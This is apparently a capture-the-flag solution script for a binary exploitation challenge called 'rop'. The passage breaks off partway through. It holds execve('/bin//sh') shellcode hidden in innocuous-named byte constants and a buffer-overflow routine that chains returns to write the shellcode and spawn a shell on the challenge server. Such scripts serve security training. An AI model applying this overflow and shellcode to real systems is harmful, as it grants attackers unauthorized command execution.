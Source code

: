 ```python

context.log_level = 'warn'
context.terminal = ['/usr/bin/termite', '-e']
e = ELF('./rop')

loot = '\xc0\x40\xcd\x80'
lonely = '\xc1\x89\xc2\xb0'
tilted = '\x31\xc0\x50\x68'
snobby = '\x68\x2f\x62\x69'
dusty = '\x0b\xcd\x80\x31'
junk = '\x2f\x2f\x73\x68'
grove = '\x6e\x89\xe3\x89'

c=[
    grove,
    junk,
    dusty,
    snobby,
    tilted,
    lonely,
    loot,
]

m = {
    grove: e.sym.greasy_grove,
    junk: e.sym.junk_junction,
    dusty: e.sym.dusty_depot,
    snobby: e.sym.snobby_shores,
    tilted: e.sym.tilted_towers,
    lonely: e.sym.lonely_lodge,
    loot: e.sym.loot_lake,
}


def oracle(chain, local=True, stay=False):
    p = process('./rop') if local else remote('ctf.umbccd.io', 4100)
    p.recvuntil('?\n')

    """
    Since we only can overwrite the pushed eip and one more dword,
    we need to go one at a time, returning to the tryme function.
    """
    for i in chain:
        p.send('0000111122223333' + p32(i) + p32(e.sym.tryme))

    """
    Once we have our shell code written, then we can ret to the
    win function.
    """
    p.sendline('0000111122223333' + p32(e.sym.win))

    r=False
    try:
        """
        We need to let a moment pass here to let the shellcode
        execute, and hopfully open a new process. If we send
        the echo before this process starts, that input may only
        be passed to the original program.

        This sendline will error out if the rop program crashes.
        """
        time.sleep(0.5)
        p.sendline('echo abc123')
```